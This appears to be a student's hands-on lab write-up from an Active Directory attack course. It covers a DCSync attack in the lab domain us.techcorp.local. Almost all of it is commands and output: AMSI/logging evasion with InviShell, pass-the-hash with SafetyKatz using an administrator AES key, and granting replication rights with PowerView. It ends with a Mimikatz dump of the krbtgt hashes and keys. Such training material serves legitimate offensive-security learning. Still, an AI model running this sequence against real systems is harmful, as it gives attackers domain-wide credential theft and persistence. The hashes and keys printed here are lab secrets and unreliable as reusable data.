







# Hands-on 16: DC Sync with additional rights

- [Hands-on 16: DC Sync with additional rights](#hands-on-16-dc-sync-with-additional-rights)
  - [Tasks](#tasks)
  - [Check if studentuserx has Replication (DCSync) rights](#check-if-studentuserx-has-replication-dcsync-rights)
  - [Add the replication rights for the studentuserx and execute the DCSync attack to pull hashes of the krbtgt user](#add-the-replication-rights-for-the-studentuserx-and-execute-the-dcsync-attack-to-pull-hashes-of-the-krbtgt-user)

---

## Tasks

- Check if studentuserx has Replication (DCSync) rights. 
- If yes, execute the DCSync attack to pull hashes of the krbtgt user. - If no, add the replication rights for the studentuserx and execute the DCSync attack to pull hashes of the krbtgt user.

<br/>

---

## Check if studentuserx has Replication (DCSync) rights

First run a InviShell:

```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.dat
```

<br/>

Import `PowerView.ps1`:

```
. C:\AD\Tools\PowerView.ps1
```

<br/>

Check if the current user has any replicating right on the Domain Object:

```
Get-DomainObjectACL -SearchBase "dc=us,dc=techcorp,dc=local" -SearchScope Base -ResolveGUIDs | ?{ ($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | %{$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "studentuser64"}
```

  

- It returns nothing: we have no DCSync right

<br/>

---

## Add the replication rights for the studentuserx and execute the DCSync attack to pull hashes of the krbtgt user

To add replication rights for `studentuser64`, if we need to become Domain Admins:

```
C:\AD\Tools\SafetyKatz.exe "sekurlsa::pth /user:administrator /domain:us.techcorp.local /aes256:db7bd8e34fada016eb0e292816040a1bf4eeb25cd3843e041d0278d30dc1b335 /run:powershell.exe" "exit"
```

  


<br/>

Use PowerView to add the required permissions:

```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat 
```

- FullControl Rights

```
. C:\AD\Tools\PowerView.ps1; Add-DomainObjectAcl -TargetIdentity "dc=us,dc=techcorp,dc=local" -PrincipalIdentity studentuser64 -Rights All -PrincipalDomain us.techcorp.local -TargetDomain us.techcorp.local -Verbose
```

  

<br/>

- DCSync rights

```
Add-DomainObjectAcl -TargetIdentity "dc=us,dc=techcorp,dc=local" -PrincipalIdentity studentuser64 -Rights DCSync -PrincipalDomain us.techcorp.local -TargetDomain us.techcorp.local -Verbose
```

  

<br/>

Now check the permission of the DC object again:

  

  


<br/>

With DCSync right, get the `krbtgt` hashes:


```
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"
```

  

Result:

```
[*] Dumping lsass (720) to C:\Windows\Temp\test.txt
[+] Dump successful!

[*] Executing loaded Mimikatz PE

  .#####.   mimikatz 2.2.0 (x64) #19041 Dec 18 2020 22:37:12
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # lsadump::dcsync /user:us\krbtgt
[DC] 'us.techcorp.local' will be the domain
[DC] 'US-DC.us.techcorp.local' will be the DC server
[DC] 'us\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 7/4/2019 11:49:17 PM
Object Security ID   : S-1-5-21-210670787-2521448726-163245708-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: b0975ae49f441adc6b024ad238935af5
    ntlm- 0: b0975ae49f441adc6b024ad238935af5
    lm  - 0: d765cfb668ed3b1f510b8c3861447173

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 819a7c8674e0302cbeec32f3f7b226c9

* Primary:Kerberos-Newer-Keys *
    Default Salt : US.TECHCORP.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5
      aes128_hmac       (4096) : 1bae2a6639bb33bf720e2d50807bf2c1
      des_cbc_md5       (4096) : 923158b519f7a454

* Primary:Kerberos *
    Default Salt : US.TECHCORP.LOCALkrbtgt
    Credentials
      des_cbc_md5       : 923158b519f7a454

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  a1bdf6146e4b13c939093eb2d72416c9
    02  cd864c0d5369adad4fc59a469a2d4d17
    03  2123179b0ab5c0e37943e346ef1f9d9a
    04  a1bdf6146e4b13c939093eb2d72416c9
    05  cd864c0d5369adad4fc59a469a2d4d17
    06  3449e5615d5a09bbc2802cefa8e4f9d4
    07  a1bdf6146e4b13c939093eb2d72416c9
    08  296114c8d353f7435b5c3ac112523ba4
    09  296114c8d353f7435b5c3ac112523ba4
    10  5d504fb94f1bcca78bd048de9dad69e4
    11  142c7fde1e3cb590f54e12bbfdecfbe4
    12  296114c8d353f7435b5c3ac112523ba4
    13  13db8df6b262a6013f78b082a72add2c
    14  142c7fde1e3cb590f54e12bbfdecfbe4
    15  b024bdda9bdb86af00c3b2503c3bf620
    16  b024bdda9bdb86af00c3b2503c3bf620
    17  91600843c8dadc79e72a753649a05d75
    18  423730024cfbbc450961f67008a128a5
    19  d71f700d63fa4510477342b9dc3f3cc7
    20  bad6b9122f71f8cfd7ea556374d381d9
    21  52c6560f77613d0dcf460476da445d93
    22  52c6560f77613d0dcf460476da445d93
    23  23504d9f1325c5cf68892348f26e77d7
    24  8228bd623c788b638fce1368c6b3ef44
    25  8228bd623c788b638fce1368c6b3ef44
    26  a2659c1d9fa797075b1fabdee926569b
    27  784f5fbc5276dcc8f88bbcdfa27b65d8
    28  2ac6c7c1c24262b424f85e1ab762f1d3
    29  4bef285b22fd87f4868be352958dcb9e


mimikatz(commandline) # exit
Bye!
```